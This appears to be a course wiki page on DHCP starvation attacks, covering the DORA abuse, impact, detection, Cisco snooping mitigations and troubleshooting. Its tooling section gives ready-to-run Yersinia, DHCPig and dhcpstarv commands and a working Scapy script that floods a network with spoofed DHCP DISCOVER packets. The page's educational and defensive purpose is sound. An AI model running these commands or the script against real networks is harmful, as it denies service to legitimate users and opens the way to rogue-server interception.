

# DHCP Starvation Attack

A **DHCP Starvation Attack** is a network-based denial-of-service attack where an attacker floods a DHCP server with fake DHCP requests using spoofed MAC addresses. The objective is to exhaust the DHCP IP address pool so legitimate clients can no longer obtain an address.

## Overview

DHCP hands out addresses through the [DORA-Process](DORA-Process.md) (Discover, Offer, Request, Acknowledge) and tracks each lease by the client's MAC address (`chaddr`) and transaction ID (`xid`). Starvation abuses that trust: by forging thousands of `DHCPDISCOVER` packets from random MAC addresses, an attacker convinces the server that many distinct clients are requesting leases, draining the [scope](Scope-in-a-DHCP-Server.md) until it has nothing left to offer.

Starvation is rarely the end goal. A drained legitimate server stops answering, which clears the way for a [Rogue-DHCP-Server](Rogue-DHCP-Server.md) to win every subsequent exchange and hand victims an attacker-controlled gateway and DNS server — turning a denial of service into a man-in-the-middle position. It sits alongside the other techniques catalogued in [DHCP-Security-Issues-and-Attacks](DHCP-Security-Issues-and-Attacks.md).

## How It Works

1. The attacker sends numerous `DHCPDISCOVER` requests.
2. Each request carries a spoofed MAC address and a fresh transaction ID.
3. The DHCP server allocates an IP address to each fake client.
4. The DHCP scope becomes exhausted.
5. Legitimate systems fail to receive IP addresses.



## Impact

| Impact | Description |
|---|---|
| Denial of Service | Legitimate clients cannot obtain IP addresses |
| Rogue DHCP Opportunity | Attackers can introduce a malicious DHCP server |
| Traffic Interception | Enables man-in-the-middle attacks |
| Network Disruption | Causes connectivity and authentication failures |

## Tooling

| Tool | Package / Source | Notes |
|---|---|---|
| Yersinia | `apt install yersinia` | GTK GUI, ncurses, and CLI modes |
| DHCPig (`pig.py`) | `github.com/kamorin/DHCPig` | Aggressive starvation + keeps leases held |
| dhcpstarv | `apt install dhcpstarv` | Simple, lease-holding starvation |
| Scapy | `pip install scapy` | Fully controllable PoC (below) |
| Metasploit | `auxiliary/dos/dhcp/isc_dhcpd_clientid` | DoS module (version-specific) |

> [!NOTE]
> **Gobbler is retired**
> **Gobbler** is legacy/unmaintained and absent from modern Kali — prefer DHCPig, dhcpstarv, or a Scapy script.

### Yersinia

Interactive (ncurses) mode:

```bash
sudo yersinia -I
```

Navigate to: `DHCP → [x] → Launch Attack → sending DISCOVER packet`.

Command-line DHCP starvation:

```bash
sudo yersinia dhcp -attack 1 -interface eth0
```

### DHCPig

```bash
# Exhausts the pool AND holds leases; also NAKs legitimate renewals
sudo python3 pig.py eth0
```

### dhcpstarv

```bash
sudo dhcpstarv -i eth0        # request every offered address until the pool is dry
```

### Scapy Proof-of-Concept

A minimal, auditable starvation loop — each iteration crafts a DISCOVER from a fresh random MAC:

```python3
from scapy.all import *
import random

def rand_mac():
    return "02:00:00:%02x:%02x:%02x" % (random.randint(0,255),
                                        random.randint(0,255),
                                        random.randint(0,255))

for _ in range(500):
    mac = rand_mac()
    pkt = (Ether(src=mac, dst="ff:ff:ff:ff:ff:ff")
           / IP(src="0.0.0.0", dst="255.255.255.255")
           / UDP(sport=68, dport=67)
           / BOOTP(chaddr=mac2str(mac), xid=random.randint(1, 0xFFFFFFFF), flags=0x8000)
           / DHCP(options=[("message-type", "discover"), "end"]))
    sendp(pkt, iface="eth0", verbose=0)
```

> [!IMPORTANT]
> **Vary xid and chaddr per request**
> The `xid` (transaction ID) and `chaddr` must vary per request or the server treats them as retransmissions of one client and the pool never drains. See [DORA-Process](DORA-Process.md) for these fields.

### Nmap DHCP Discovery

```bash
sudo nmap --script broadcast-dhcp-discover        # enumerate DHCP servers on the segment
```

## Security Considerations

> [!WARNING]
> **Starvation is the setup, not the payoff**
> On its own, starvation is a denial of service — but its real value to an attacker is clearing the field so a rogue server can take over. Once the legitimate server's pool is dry it can no longer answer, and the attacker's [Rogue-DHCP-Server](Rogue-DHCP-Server.md) wins every new DORA exchange, handing victims a malicious default gateway (option 003) and DNS server (option 006). That converts a DoS into man-in-the-middle and DNS spoofing.

Chain from a defender's point of view:

```text
1. Starve legitimate DHCP server  →  its pool is dry, it stops offering
2. Attacker's rogue server answers new DISCOVERs
3. Rogue hands out: attacker IP as default gateway (option 003)
                    attacker IP as DNS         (option 006)
4. Victim traffic is routed/resolved through the attacker  →  MITM / DNS spoofing
```

This is why starvation and rogue-server defenses ([DHCP-Snooping](DHCP-Snooping.md)) are discussed together — see [DHCP-Security-Issues-and-Attacks](DHCP-Security-Issues-and-Attacks.md).

## Detection

Common indicators:

- Large number of `DHCPDISCOVER` packets.
- Rapid DHCP lease exhaustion.
- Multiple MAC addresses appearing behind a single switch port.
- Clients failing to obtain IP addresses.

Wireshark display filters:

```text
bootp                    # show all DHCP/BOOTP traffic
bootp.option.dhcp == 1   # show only DHCP DISCOVER requests
```

## Prevention

| Mitigation | Description |
|---|---|
| DHCP Snooping | Blocks untrusted DHCP traffic (see [DHCP-Snooping](DHCP-Snooping.md)) |
| Port Security | Limits MAC addresses per switch port |
| Rate Limiting | Restricts DHCP request rates |
| 802.1X Authentication | Prevents unauthorized devices |
| VLAN Segmentation | Isolates network traffic |
| Monitoring & Alerting | Detects abnormal DHCP activity |

Cisco DHCP snooping example — trust the uplink to the real server and rate-limit access ports:

```bash
conf t

ip dhcp snooping
ip dhcp snooping vlan 10

interface GigabitEthernet0/1
 ip dhcp snooping trust

interface GigabitEthernet0/2
 ip dhcp snooping limit rate 10
```

## Best Practices

- Enable **DHCP snooping** on access switches so only the trusted uplink port may relay/serve DHCP.
- Enforce **port security** to cap the number of MAC addresses learned per access port, defeating MAC-flooding starvation.
- Apply **rate limiting** on DHCP snooping so a burst of DISCOVERs on one port is dropped.
- Pair snooping with **Dynamic ARP Inspection** and **IP Source Guard** to close the follow-on man-in-the-middle path.
- **Monitor and alert** on lease-pool utilization and unusual MAC churn behind a single port.

## Troubleshooting

| Symptom | Likely cause & fix |
|---|---|
| Legitimate clients get 169.254.x.x (APIPA) addresses | Scope exhausted by starvation — inspect lease table for many short-lived leases from random MACs; enable snooping and port security |
| Pool drains but leases look like one client | Attack tool is reusing `xid`/`chaddr`; not a false alarm — a correctly varied attack shows many distinct MACs |
| Rogue gateway/DNS appears after outage | Starvation enabled a [Rogue-DHCP-Server](Rogue-DHCP-Server.md); locate it via `ipconfig /all` mismatch and mark only the real uplink as `snooping trust` |

## References

- [RFC 2131 — Dynamic Host Configuration Protocol](https://www.rfc-editor.org/rfc/rfc2131)
- [DHCP overview (Microsoft Learn)](https://learn.microsoft.com/en-us/windows-server/networking/technologies/dhcp/dhcp-top)
- [Cisco — Configuring DHCP Snooping](https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst9300/software/release/17-x/configuration_guide/sec/b_17x_sec_9300_cg/configuring_dhcp_features_and_option_82.html)

## Related

- [DHCP-Security-Issues-and-Attacks](DHCP-Security-Issues-and-Attacks.md) — parent overview of DHCP attacks
- [Rogue-DHCP-Server](Rogue-DHCP-Server.md) — the follow-on attack starvation enables
- [DHCP-Snooping](DHCP-Snooping.md) — primary switch-level mitigation
- [DORA-Process](DORA-Process.md) — handshake abused to exhaust the pool
- [Scope-in-a-DHCP-Server](Scope-in-a-DHCP-Server.md) — address pool the attack drains
- [DHCP(Dynamic-Host-Configuration-Protocol)](DHCP(Dynamic-Host-Configuration-Protocol).md) — protocol overview
- [Networking Fundamentals](../Networking-Fundamentals/Readme.md) — underlying networking concepts
- [Enterprise Windows Infrastructure Security](../Readme.md) — course hub
